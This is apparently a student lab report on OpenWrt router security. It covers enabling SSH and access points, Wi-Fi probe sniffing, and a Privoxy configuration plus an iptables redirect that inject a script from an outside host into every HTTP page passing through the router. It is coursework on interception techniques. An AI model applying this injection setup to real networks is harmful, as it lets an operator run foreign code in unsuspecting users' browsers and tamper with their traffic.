





# 实验二：OpenWrt安全实践

## 实验要求

1、在openwrt上安装软件，开通ssh，AP服务等；

2、在openwrt上安装auditord，配置相关文件，抓取ftp、telnet和无线网卡wifi信号嗅探的内容，发送到外置服务器，并接收。

3、在openwrt上安装privoxy，完成配置文件，实现对http协议的js代码注入功能。

4、整个过程都进行文档记录和截屏，完成实验文档。


## 设备详情

- 型号	Phicomm PSG1218 rev.A
- 架构	MediaTek MT7620A ver:2 eco:6
- 目标平台	ramips/mt7620
- 固件版本	OpenWrt 21.02.2 r16495-bf0c965af0 / LuCI openwrt-21.02 branch git-22.046.85957-59c3392
- 内核版本	5.4.179

## 实验流程

### 开通SSH服务




### 开通AP服务

在图形化界面（Luci）网络-无线，将两个分别为2.4GHZ和5GHZ的AP启用，如下图所示(SSID : OpenWrt)，重启路由器即可。



在此之前，由于该路由器和主路由按lan-to-wan连接，所以需要把该路由器的地址从192.168.1.1改至192.168.3.1防止冲突。

下图是手机检测到这个AP：



### auditord嗅探

由于编译较为困难且错误频频，目前只实现了WIFI探针这一功能。

#### WIFI探针



### privoxy使用及JS嵌入

#### 修改配置文件

- ```
  vim /etc/config/privoxy
  
  config  privoxy 'privoxy'
          option  confdir         '/etc/privoxy'
          option  logdir          '/var/log'
          option  logfile         'privoxy.log'
          list    filterfile      'default.filter'
          list    filterfile      'user.filter'
          list    actionsfile     'match-all.action'
          list    actionsfile     'default.action'
          list    actionsfile     'user.action'
  #       list    listen_address  '127.0.0.1:8118'
          list    listen_address  '192.168.3.1:8118'
          option  toggle          '1'
          option  enable_remote_toggle    '1'
          option  enable_remote_http_toggle       '0'
          option  enable_edit_actions     '1'
          option  enforce_blocks          '0'
          option  buffer_limit            '4096'
          option  forwarded_connect_retries       '0'
          option  accept_intercepted_requests     '1'
          option  allow_cgi_request_crunching     '0'
          option  split_large_forms       '0'
          option  keep_alive_timeout      '300'
          option  socket_timeout          '300'
          list    permit_access           '192.168.3.0/24'
          option  debug_1         '0'
          option  debug_512       '1'
          option  debug_1024      '0'
          option  debug_4096      '1'
          option  debug_8192      '1'
  ```
  
- ```
  vim /etc/privoxy/user.filter
  # 添加JS代码
  FILTER: block-weeds
  s|</head>|<script    type="text/javascript" src="http://www.yswifi.com/ystest/js/floating.js"></script>$0|
  ```
  
- ```
  vim /etc/privoxy/user.action
  # 调用
  {+filter{block-weeds}}
  .*
  ```

#### 添加路由规则

- ```iptables -t nat -A PREROUTING -s 0.0.0.0/0.0.0.0 -p tcp --dport 80 -j REDIRECT --to-ports 8118```将所有目标地址为80端口的请求转到8118端口

#### 重启服务

- ```/etc/init.d/privoxy restart``` 

#### 互联网验证

- 凤凰网早已升级到https协议，而http网站数量稀少，故使用学校的教学平台：http://courses.cuc.edu.cn/user/courses
- 
- 完成JS注入。

## 参考资料

- [官方文档之SDK](https://openwrt.org/zh/docs/guide-developer/using_the_sdk)
- [官方文档之用户管理示例](https://openwrt.org/docs/guide-user/base-system/users#does_openwrt_support_managing_users_with_the_traditional_unixlinux_commands_such_as_useradd_passwd_sudo_and_su)
- [官方文档之交叉编译](https://openwrt.org/docs/guide-developer/toolchain/crosscompile)

